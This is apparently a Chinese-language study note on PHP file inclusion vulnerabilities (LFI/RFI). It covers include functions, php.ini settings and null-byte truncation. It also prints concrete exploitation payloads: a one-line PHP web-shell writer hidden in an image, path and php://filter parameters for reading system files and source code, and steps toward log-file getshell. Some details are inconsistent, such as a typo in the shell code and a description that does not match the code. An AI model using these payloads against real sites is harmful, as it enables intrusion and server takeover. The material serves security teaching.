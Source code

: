# 文件包含

文件包含漏洞：由于设计程序时，希望更好的重复利用。故程序通常由多个文件组成。通过关联语句进行联系，就出现了文件包含的现象。并且代码的编辑出现不规范的操作，比如“*”等字符，使得程序调用时范围过大，当出现普通文件中包含病毒语句时，就出现了文件包含漏洞

留言        连接数据库
查看留言    连接数据库
登录        连接数据库
注册        连接数据库

代码的重复
留言             连接数据库  单独的文件
查看留言
登录
注册

- 程序开发人员通常会把可重复使用的函数写到单个文件中，在使用某个函数的时候，直接调用此文件，无需再次编写，这种调用文件的过程通常称为包含

- 程序开发人员都希望代码更加灵活，所以通常会把被包含的文件设置为变量，来进行动态调用，但正是由于这种灵活性，从而导致客户端可以调用任意文件，造成文件包含漏洞。

- 几乎所有的脚本语言都会提供文件包含功能。文件包含漏洞在PHP Web Application中居多，在JSP/ASP/ASP.net程序中比较少。

# 漏洞产生的原因

1. Web应用实现了动态包含
2. 动态包含的文件路径参数，客户端可控

# PHP中的文件包含

## 语句

PHP中提供了四个文件包含的函数

函数                          区别
include()                    文件包含失败时，会产生警告，脚本会继续执行
include_once()               与include()功能相同，文件只会被包含一次
require()                    文件包含失败时，会产生错误，直接结束脚本运行
require_once()               与require()功能相同，文件只会被包含一次

## 相关配置

文件包含是PHP的基本功能之一，有本地文件包含和远程文件包含之分（虽然php官网上不是这么解释的）。简单来说，本地文件包含就是可以读取和打开本地文件，远程文件包含（HTTP,FTP,PHP伪协议）就是可以远程加载文件。我们可以通过php.ini来进行配置。如下
allow_url_fopen=On/Off         本地文件包含（LFT）
allow_url_include=On/Off       远程包含漏洞（RFI）

### 本地文件包含LFI

本地文件包含就是我们可以通过相对路径的方式找到文件，然后包含之

### 远程文件包含RFI

远程文件包含就是我们可以通过http(s)或者ftp等方式，远程加载文件

# 漏洞原理及特点

- 漏洞原理

PHP文件包含是程序设计的基础功能之一，能够减少代码量，提高开发效率。但是使用文件包含功能时，有类似于测试代码的设计，实现了动态包含，就有产生文件包含漏洞的风险。如果实现动态包含的参数，Web应用没有进行严格净化，客户端用户可以影响或控制文件包含的路径，就会产生文件包含漏洞

- 特点

PHP提供的文件包含功能非常强大，有以下特点

@ 无视文件扩展名读取文件

@ 无条件解析PHP代码

## 空字符安全绕过

空字符安全限制绕过，是PHP小于5.3.4版本的一个漏洞，CVE编号是CVE-2006-7243。这个漏洞就是PHP接收来自于路径名中的空（Null）字符，这可能允许依赖于上下文的攻击者通过在此字符后放置安全文件扩展名来绕过预期的访问限制，也就是00截断。00截断攻击也会体现在文件包含中。

注意：需要关闭PHP的魔术引号

## 文件包含漏洞的利用

- 读取敏感文件

我们可以利用文件包含漏洞读取任意文件，读取文件的时候有利用条件
@ 目标主机文件存在（目标文件的路径，绝对路径，相对路径）
@ 具有文件可读权限
提交参数[?path=c:\windows\System32\drivers\etc\hosts],读取本地host的文件

- 直接包含图片木马

可以利用文件包含漏洞直接包含图片木马，直接包含图片木马
[?path=pngYjh.png]

使用菜刀连接

- 包含木马写Shell

我们也可以将如下代码写入到图片中
<?php fputs(fopne('shell.php','w'),"<?php @eval(\$_REQUEST['cmd'])?>");?>
该段代码的含义是，在当前目录下创建一个名为[shell.php]的文件，内容为[<?php phpinfo();?>],当我们直接包含图片的时候，这段代码就会被执行

- PHP封装协议--访问本地文件

我们可以使用php的file协议访问本地系统文件，提交参数
[?path=file://c:\windows\System32\drivers\etc\hosts]

- PHP封装协议--传输PHP文件

可以使用以下参数来传送任意PHP文件
[?path=php://filter/read=convert.base64-encode/resource=inc.php]
然后把得到的所有字符串base64解码即可

- PH封装协议--执行PHP命令

我们可以利用PHP的封装协议来执行PHP命令，如下

# 已知一个网站存在本地文件漏洞，没有文件上传API，如何利用？
1. 包含本地日志文件getShell
   日志文件的路径？
    1. 常识
    2. 爆破
2. 包含session文件，造成sessionId泄露

meyinfo5.0.4 文件包含漏洞代码审计